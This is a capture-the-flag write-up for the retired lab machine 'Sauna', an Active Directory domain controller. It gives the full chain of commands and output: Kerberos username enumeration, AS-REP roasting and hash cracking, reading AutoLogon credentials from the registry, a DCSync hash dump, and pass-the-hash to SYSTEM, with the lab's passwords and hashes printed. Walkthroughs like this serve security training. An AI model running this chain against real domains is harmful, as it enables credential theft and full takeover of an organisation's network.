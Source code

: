 # Sauna

This is the write-up for the box Sauna that got retired at the 18th July 2020.
My IP address was 10.10.14.2 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.175    sauna.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/sauna.nmap 10.10.10.175
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-07-10 17:09:07Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the open ports, this box is an **Active Directory Domain Controller**.

## Checking HTTP (Port 80)

The web page is a custom developed homepage of a fictional bank.
All pages are static HTML files, but there are some potential usernames on the _/about.html_ site:
- Fergus Smith
- Shaun Coins
- Hugo Bear
- Bowie Taylor
- Sophie Driver
- Steven Kerb

General username formats on Windows are as follows:
- _firstname.lastname_
- _f.lastname_
- _firstnamelastname_
- _flastname_

Example:
- _fergus.smith_
- _f.smith_
- _fergussmith_
- _fsmith_

So all 6 usernames have 4 different formats and these 32 usernames have to be validated.

## Checking SMB (Port 445)

The SMB port provides information about the hostname and domain name:
```
crackmapexec smb 10.10.10.175
```
```
SMB    10.10.10.175    445    SAUNA    [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

- Hostname: SAUNA
- Domain Name: EGOTISTICAL-BANK.LOCAL

Let put the domain name into our _/etc/hosts_ file.
```
10.10.10.175    EGOTISTICAL-BANK.LOCAL sauna.EGOTISTICAL-BANK.LOCAL
```

## Checking Kerberos (Port 88)

By doing a **Kerberos Pre-Authentication attack**, we can try to validate usernames against the domain.
When trying to authenticate to a domain via Kerberos and have a valid username, it will use Pre-Authentication and that is how this method works.

The tool [Kerbrute](https://github.com/ropnop/kerbrute) will help to accomplish this:
```
./kerbrute userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL saune_users.txt
```
```
2021/07/10 13:20:57 >  Using KDC(s):
2021/07/10 13:20:57 >  10.10.10.175:88

2021/07/10 13:20:57 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
2021/07/10 13:20:57 >  Done! Tested 24 usernames (1 valid) in 0.156 seconds
```

It found one valid username _fsmith_.
The tool **Get-NPUsers** from the **Impacket Framework** can query for users with _"Do not require Kerberos preauthentication"_ set and export their TGTs for cracking:
```
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/fsmith -no-pass
```
```
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b8111de79588a5cd79151f8b7249431c$558519(...)
```

Cracking the TGT with **Hashcat**:
```
hashcat -m 18200 sauna_fsmith.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password of the user _fsmith_ is:
> Thestrokes23

Luckily the user has enough privileges to authenticate to the **WinRM** service:
```
crackmapexec winrm 10.10.10.175 -u fsmith -p Thestrokes23

WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

Connecting to the box with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):
```
evil-winrm.rb -i 10.10.10.175 -u fsmith -p Thestrokes23
```

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Windows Enumeration script**:
```
Evil-WinRM PS C:\Users\FSmith\Documents> upload winPEAS.exe
```
```
.\winPEAS.exe
```

There are **AutoLogon credentials** stored on the box for the user _svc_loanmanager_:
```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
```
DefaultUserName: EGOTISTICAL.LOCAL\svc_loanmanager
DefaultPassword: Moneymakestheworldgoround!
```

The username on the box is _svc_loanmgr_, so maybe this user has the same password:
```
net users /domain

svc_loanmgr
```

As this is a domain controller, the tool **BloodHound** should be run:
```
Evil-WinRM PS C:\Users\FSmith\Documents> upload SharpHound.exe

Evil-WinRM PS C:\Users\FSmith\Documents> ./SharpHound.exe

Evil-WinRM PS C:\Users\FSmith\Documents> download 20210710134006_BloodHound.zip
```

After analyzing the output, it looks like that the user _svc_loanmgr_ has the _DS-Replication-Get-Changes-All_ privilege on the domain.

![Control Rights of svc_loanmgr](sauna_bh-1.png)

In conjunction with the _DS-Replication-Get-Changes_ privilege, it is possible to perform a **DCSync attack** to get the password hashes of all domain users.

The tool **secretsdump** from the **Impacket Framework** can use this method to dump the hashes:
```
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
(...)
```

The hash of the _Administrator_ can now be used for a **Pass-The-Hash attack**:
```
crackmapexec winrm 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff

WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\administrator:d9485863c1e9e05851aa40cbb4ab9dff (Pwn3d!)
```

Using **Impacket-PsExec** with the hash of _Administrator_:
```
impacket-psexec EGOTISTICAL-BANK.LOCAL/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff
```

It logs us in as _NT Authority\SYSTEM_!

